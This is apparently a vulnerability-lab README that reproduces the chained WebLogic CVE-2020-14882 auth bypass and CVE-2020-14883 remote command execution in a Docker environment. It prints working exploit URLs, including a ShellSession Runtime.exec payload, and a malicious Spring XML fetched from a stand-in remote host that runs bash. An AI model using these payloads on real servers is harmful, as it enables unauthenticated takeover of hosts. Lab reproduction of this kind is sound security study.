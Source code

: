 # Weblogic Pre-Auth Remote Command Execution (CVE-2020-14882, CVE-2020-14883)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - October 2020](https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.

CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.

References:

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

Using this URL to bypass the authentication of Console component:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

At this moment, you don't have permission to upload a webshell:

![](2.png)

The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through `com.tangosol.coherence.mvel2.sh.ShellSession`, and the other is through `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`.

Visit the following URL to chain 2 vulnerabilities and execute commands from `com.tangosol.coherence.mvel2.sh.ShellSession`:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` has been successfully executed inside the container:

![](3.png)

This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class `com.tangosol.coherence.mvel2.sh.ShellSession`.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.

To exploit the `FileSystemXmlApplicationContext`, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as `http://example.com/rce.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Then through the following URL, Weblogic would load this XML and execute the commands in it:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.
